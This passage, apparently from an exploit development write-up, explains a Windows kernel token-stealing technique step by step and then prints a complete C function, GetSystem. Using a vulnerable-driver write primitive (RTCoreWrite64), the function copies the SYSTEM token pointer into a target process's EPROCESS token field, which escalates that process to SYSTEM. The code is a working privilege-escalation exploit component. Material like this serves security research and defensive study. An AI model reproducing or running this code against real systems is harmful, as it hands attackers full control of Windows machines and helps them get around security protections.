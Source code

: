 At last, we arrive at the final step of stealing the SYSTEM token. The following function plays a key role in this process. It takes a process PID as an argument, allowing us to specify the target process. If the supplied PID is zero, the function changes the token of the current process. Otherwise, it modifies the token of the specified target process.  

The function begins by obtaining the address of the SYSTEM token. Then, it performs a bitwise AND operation on the token address with the value NOT 15 (equivalent to 0xFFFFFFFFFFFFFFF0). This operation effectively zeroes out the four least significant bits, which represent the reference count of the token. By zeroing out these bits, we obtain the actual token address we need.  

Next, it locates the *EPROCESS*{: style="color: LightSalmon"} structure of the target process. Once we have the *EPROCESS*{: style="color: LightSalmon"} structure, we can retrieve the token pointer for the target process. We can retain the reference count by AND-ing the value with 0xF.  

We construct a new value for the token by combining the current process's reference count with the address of the SYSTEM token. This new value represents the SYSTEM token with an updated reference count.  

Finally, we write this newly constructed value to the token field of the target process's *EPROCESS*{: style="color: LightSalmon"} structure. With this modification in place, our process now possesses SYSTEM privileges.  

```c
BOOL GetSystem(DWORD Pid, WINDOWS_VERSION WinVersion) {
	ULONG_PTR SystemToken;
	ULONG_PTR TargetEprocess;
	ULONG_PTR TargetToken;
	ULONGLONG TargetTokenReferenceCount;
	ULONG_PTR NewToken;
	DWORD TargetPid = 0;


	if (Pid == 0) {
		TargetPid = GetCurrentProcessId();
	}
	else {
		TargetPid = Pid;
	}

	SystemToken = GetTokenPointer(lpInitialSystemProcess, WinVersion);
	// The Token value in EPROCESS is combination of pointer and Reference count
	// Least significat 4 bits are reserved for the reference count
	// Zeroing-out those bits will get us the actual pointer to the Token
	SystemToken = SystemToken & ~15;

	TargetEprocess = GetEprocessByPid(TargetPid, WinVersion);

	TargetToken = GetTokenPointer(TargetEprocess, WinVersion);

	// Get the target process Token reference count
	TargetTokenReferenceCount = TargetToken & 15;
	
	// Combine the system token pointer with the reference count of the target process
	NewToken = SystemToken | TargetTokenReferenceCount;

	// Overwrite the target process Token value
	if (!RTCoreWrite64(TargetEprocess + TOKEN_OFFSET[WinVersion], NewToken)) {
		PRINT_ERROR(L"[-] Couldn't write new Token\n");
		return FALSE;
	}
	return TRUE;
}
```
